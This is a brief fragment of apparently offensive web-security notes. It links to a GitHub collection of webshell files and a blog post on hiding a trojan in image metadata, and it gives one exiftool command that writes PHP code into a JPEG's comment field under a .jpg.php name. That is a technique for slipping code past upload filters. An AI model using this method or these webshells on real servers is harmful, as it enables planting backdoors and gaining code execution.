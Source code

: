 shells https://github.com/Amar224/webshell_files

[exif制作马](https://blog.csdn.net/qq_54704239/article/details/129048009)

```
exiftool -Comment="<?php phpinfo();?>" ./op.jpg.php
```